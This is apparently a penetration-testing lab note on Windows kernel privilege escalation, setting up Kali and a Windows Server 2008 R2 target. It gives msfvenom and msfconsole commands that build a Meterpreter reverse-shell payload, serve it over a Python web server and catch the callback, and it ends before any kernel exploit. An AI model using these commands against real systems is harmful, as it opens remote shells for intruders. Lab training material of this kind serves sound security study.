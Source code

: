 # 🔬Windows Kernel Privileges

## Lab

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
>   * [**Windows-Exploit-Suggester**](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)&#x20;
>   * [**windows-kernel-exploits**](https://github.com/SecWiki/windows-kernel-exploits)

### Exploitation

* Get a `Meterpreter` session on the target with a manual payload
* Create the payload on the Kali VM

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=4444 .f exe > payload.exe
```

* Start a webserver on Kali VM

```bash
python3 -m http.server 
```

* On the Win2008 VM
  * Open the link `http://192.168.42.132:8000/` and download `payload.exe`
  * Stop the webserver on Kali VM
* Set up a payload handler on Kali VM

```bash
┌──(k3shi㉿kali)-[~]
└─$ msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.42.132
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
```

* On the Win2008 VM, run the payload







